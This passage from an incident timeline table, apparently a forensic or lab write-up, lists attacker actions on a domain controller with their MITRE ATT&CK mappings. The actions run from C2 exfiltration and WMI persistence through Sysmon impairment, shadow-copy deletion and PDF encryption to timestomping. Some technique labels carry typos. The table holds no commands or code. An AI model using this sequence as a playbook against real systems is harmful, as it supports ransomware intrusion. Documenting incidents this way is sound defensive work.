| 11 | 2026-05-19 18:44:40             | DC01         | Exfiltrated PDF documents in C:\c-suite-docs to the C2 IP.                                                                                            | Exilftration: Exfiltration Over C2 Channel - T1041                                                                                   |
| 12 | 2026-05-19 18:44:41 -> 18:46:43 | DC01         | Established Persistence via WMI.                                                                                                                      | Persistence: Event Triggered Execution: WMI Event Subscription - T1546.003                                                           |
| 13 | 2026-05-19 18:52:04             | DC01         | Impaired the Sysmon logging process.                                                                                                                  | Defense Impairment: Disable or Modify Tools - T1685                                                                                  |
| 14 | 2026-05-19 18:54:44             | DC01         | Deleted all Volume Shadow Copies (VSCs).                                                                                                              | Impact: Inhibit System Recovery - T1490                                                                                              |
| 15 | 2026-05-19 18:54:44             | DC01         | Encrypted all PDFs into the `.ransom` extension.                                                                                                      | Impact: Data E`n`crypted for Impact - T1486                                                                                          |
| 16 | 2026-05-19 19:00:13             | DC01         | Hacker attempted to alter the Standard Information timestamps of PDF files.                                                                           | Steath: Indicator Removal on Host: Timestomp - T1070.006                                                                             |
| 17 | 2026-05-19 19:00:13             | DC01         | Defacement: Changed the desktop wallpaper.                                                                                                            | Impact: Defacement: Internal Defacement - T1491.001                                                                                  |

